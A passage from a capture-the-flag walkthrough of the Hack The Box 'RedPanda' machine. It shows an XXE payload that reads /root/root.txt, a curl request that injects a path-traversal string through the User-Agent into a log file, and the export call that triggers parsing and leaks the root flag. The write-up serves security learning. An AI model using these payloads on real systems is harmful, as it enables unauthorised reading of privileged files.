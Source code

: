 ```xml
┌──(root㉿kali)-[~/htb/redpanda]
└─# cat pencer_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY pencer SYSTEM "file:///root/root.txt"> ]><credits>
  <author>damian</author>
  <image>
    <uri>../../../home/woodenk/smooch.jpg</uri>
    <hello>&pencer;</hello>
    <views>4</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```

We know the format of this XML because earlier when clicking on the **Export table** link on the website we saw the format of the output.

Pull those two files on to the box like we did earlier, here they are in /home/woodenk:

```text
woodenk@redpanda:~$ ll
-rw-rw-r-- 1 woodenk woodenk    316 Jul 16 16:56 pencer_creds.xml
-rw-rw-r-- 1 woodenk woodenk 195979 Jul 16 15:51 smooch.jpg
-rw-r----- 1 root    woodenk     33 Jul 16 11:05 user.txt
```

Now we want to plant our malicious agent string in the log file:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=pencer' 'http://10.10.11.170:8080/search' -A "||/../../../../../../../home/woodenk/smooch.jpg"
```

On the box we can check it's in the log:

```text
woodenk@redpanda:~$ cat /opt/panda_search/redpanda.log | grep 10.10.14.207
200||10.10.14.207||||/../../../../../../../home/woodenk/smooch.jpg||/
```

Now we do an export, which will read and parse the log file causing our XXE to trigger:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl http://10.10.11.170:8080/export.xml?author=damian
```

## Root Flag

Back on the box, wait a minute then check the pencer_cred.xml file:

```text
woodenk@redpanda:~$ cat pencer_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>../../../../../home/woodenk/smooch.jpg</uri>
    <hello>bb6aaaabed6d28626dfe83c7567b955e</hello>
    <views>4</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```
